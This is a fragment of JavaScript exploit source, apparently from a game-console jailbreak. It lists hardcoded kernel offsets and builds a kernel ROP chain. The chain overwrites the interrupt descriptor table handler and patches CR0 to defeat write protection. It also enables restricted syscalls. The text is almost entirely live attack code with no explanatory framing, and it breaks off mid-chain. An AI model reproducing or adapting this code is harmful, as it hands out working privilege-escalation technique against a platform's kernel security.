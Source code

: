             const KERNEL_setidt = 0x312c40;
            const KERNEL_setcr0 = 0x1FB949;
            const KERNEL_Xill = 0x17d500;
            const KERNEL_veriPatch = 0x626874;
            const KERNEL_enable_syscalls_1 = 0x490;
            const KERNEL_enable_syscalls_2 = 0x4B5;
            const KERNEL_enable_syscalls_3 = 0x4B9;
            const KERNEL_enable_syscalls_4 = 0x4C2;
            const KERNEL_mprotect = 0x80B8D;
            const KERNEL_prx = 0x23AEC4;
            const KERNEL_dlsym_1 = 0x23B67F;
            const KERNEL_dlsym_2 = 0x221b40;
            const KERNEL_setuid = 0x1A06;
            const KERNEL_syscall11_1 = 0x1100520;
            const KERNEL_syscall11_2 = 0x1100528;
            const KERNEL_syscall11_3 = 0x110054C;
            const KERNEL_syscall11_gadget = 0x4c7ad;
            const KERNEL_mmap_1 = 0x16632A;
            const KERNEL_mmap_2 = 0x16632D;
            const KERNEL_setcr0_patch = 0x3ade3B;
            const KERNEL_kqueue_close_epi = 0x398991;    
            SAVED_KERNEL_STACK_PTR = p.malloc(0x200);
            KERNEL_BASE_PTR = SAVED_KERNEL_STACK_PTR.add32(0x8);
            //negative offset of kqueue string to kernel base
            //0xFFFFFFFFFF86B593 0x505
            //0xFFFFFFFFFF80E364 0x900
            p.write8(KERNEL_BASE_PTR, new int64(0xFF80E364, 0xFFFFFFFF));    
            kchain = new rop();
            kchain2 = new rop();
            //Ensure the krop stack remains available.
            {
                chain.fcall(window.syscalls[203], kchain.stackback, 0x40000);
                chain.fcall(window.syscalls[203], kchain2.stackback, 0x40000);
                chain.fcall(window.syscalls[203], SAVED_KERNEL_STACK_PTR, 0x10);
            }
            chain.run();    
            kchain.count = 0;
            kchain2.count = 0;    
            kchain.set_kernel_var(KERNEL_BASE_PTR);
            kchain2.set_kernel_var(KERNEL_BASE_PTR);    
            kchain.push(gadgets["pop rax"]);
            kchain.push(SAVED_KERNEL_STACK_PTR);
            kchain.push(gadgets["mov [rax], rdi"]);
            kchain.push(gadgets["pop r8"]);
            kchain.push(KERNEL_BASE_PTR);
            kchain.push(gadgets["add [r8], r12"]);    
            //Sorry we're closed
            kchain.kwrite1(KERNEL_busy, 0x1);
            kchain.push(gadgets["sti"]); //it should be safe to re-enable interrupts now.        
            var idx1 = kchain.write_kernel_addr_to_chain_later(KERNEL_setidt);
            var idx2 = kchain.write_kernel_addr_to_chain_later(KERNEL_setcr0);
            //Modify UD
            kchain.push(gadgets["pop rdi"]);
            kchain.push(0x6);
            kchain.push(gadgets["pop rsi"]);
            kchain.push(gadgets["mov rsp, rdi"]);
            kchain.push(gadgets["pop rdx"]);
            kchain.push(0xE);
            kchain.push(gadgets["pop rcx"]);
            kchain.push(0x0);
            kchain.push(gadgets["pop r8"]);
            kchain.push(0x0);
            var idx1_dest = kchain.get_rsp();
            kchain.pushSymbolic(); // overwritten with KERNEL_setidt    